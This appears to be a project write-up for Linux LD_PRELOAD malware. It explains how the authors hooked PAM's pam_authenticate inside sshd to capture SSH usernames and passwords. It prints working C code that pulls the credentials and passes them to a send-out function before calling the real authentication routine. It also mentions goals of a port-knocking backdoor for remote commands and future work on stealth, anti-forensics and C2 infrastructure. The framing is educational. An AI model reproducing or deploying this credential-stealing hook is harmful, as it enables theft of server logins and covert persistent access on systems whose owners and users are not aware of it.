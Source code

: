 # LD_PRELOAD malware BEHINDTHESCENE

## Introduction
This document details our thought process, hypotheses, and steps taken to implement a malware using the `LD_PRELOAD` technique to extract SSH credentials (username/password). The project was conducted in an assumed breach scenario, initially with root privileges.

## Project Goals
The main objectives of this project were:
- To use `LD_PRELOAD` to hook into SSH authentication functions and extract credentials.
- To investigate and manipulate authentication processes, specifically targeting `pam_authenticate`.
- To introduce a port-knocking mechanism for remote command execution.
- To find a creative way to make a specific file unopenable.

## Thought of thoughts and Initial Exploration

### Overwriting Functions
Our first approach was to overwrite the `read()` function, as it is often used for input handling, but we quickly pivoted to a more direct method.

### Debugging and Exploration
To understand how authentication worked, we ran:
```bash
sudo /usr/sbin/sshd -D -d -e
```
This allowed us to inspect SSH behavior and pinpoint where credentials were processed.

### Investigating PAM Authentication
Given that SSH authentication uses PAM (Pluggable Authentication Module), we examined `pam_authenticate` and specifically:
```c
pamh->handlers.conf.authenticate;
```
We hypothesized that hooking into `pam_authenticate` would let us extract usernames and passwords directly.

### Testing LD_PRELOAD Hook
We created an `LD_PRELOAD` shared object to intercept function calls. Instead of using `printf`, we used `stderr` or `perror` to avoid detection (and because it was the only way to print tbh 😅🤫).

## Implementation

### Extracting Username
We implemented a function to retrieve the SSH username using `pam_get_item`:
```c
char *get_username(pam_handle_t *pamh) {
    char *username = NULL;
    if (pam_get_item(pamh, PAM_USER, (const void **)&username) == PAM_SUCCESS && username) {
//        fprintf(stderr, "USER =>>>>> %s\n", username);
    } else {
        perror("Failed to retrieve username");
    }
    return username;
}
```

### Extracting Password
For password retrieval, we hooked into `sshpam_passwd_conv`:
```c
char *get_password(pam_handle_t *pamh) {
    struct pam_conv *conv;
    if (pam_get_item(pamh, PAM_CONV, (const void **)&conv) == PAM_SUCCESS && conv) {
        const struct pam_message msg = {
            .msg_style = PAM_PROMPT_ECHO_OFF,
            .msg = "Password: "
        };
        const struct pam_message *msgp = &msg;
        struct pam_response *resp = NULL;
        int ret = conv->conv(1, &msgp, &resp, conv->appdata_ptr);
        if (ret == PAM_SUCCESS && resp && resp->resp) {
//            fprintf(stderr, "PASSWORD =>>>>>: %s\n", resp->resp);
            char *password = strdup(resp->resp);
            free(resp->resp);
            free(resp);
            return password;
        } else {
            fprintf(stderr, "Failed to retrieve password\n");
        }
    } else {
        fprintf(stderr, "Failed to retrieve password\n");
    }
    return NULL;
}
```

### Hooking `pam_authenticate`
We replaced the original `pam_authenticate` function to intercept credentials:
```c
typedef int (*pam_authenticate_t)(pam_handle_t *, int);

int pam_authenticate(pam_handle_t *pamh, int flags) {
    static pam_authenticate_t original_pam_authenticate = NULL;
    if (!original_pam_authenticate) {
        original_pam_authenticate = (pam_authenticate_t)dlsym(RTLD_NEXT, "pam_authenticate");
        if (!original_pam_authenticate) {
//            fprintf(stderr, "Error loading original pam_authenticate: %s\n", dlerror());
            exit(EXIT_FAILURE);
        }
    }
    char *username = get_username(pamh);
    char *password = get_password(pamh);
    send_credentials_client(username);
    send_credentials_client(password);
    return original_pam_authenticate(pamh, flags);
}
```

## Conclusion
This project successfully demonstrated how `LD_PRELOAD` can be used to intercept and extract SSH credentials by hooking into PAM authentication functions. Future work could focus on enhancing stealth techniques, implementing more advanced anti-forensic measures, and improving the C2 infrastructure.

The project was a great way to both exercise our `C language` skills and significantly increase our knowledge of how the `Linux` OS and it's libraries simultaneously works. 

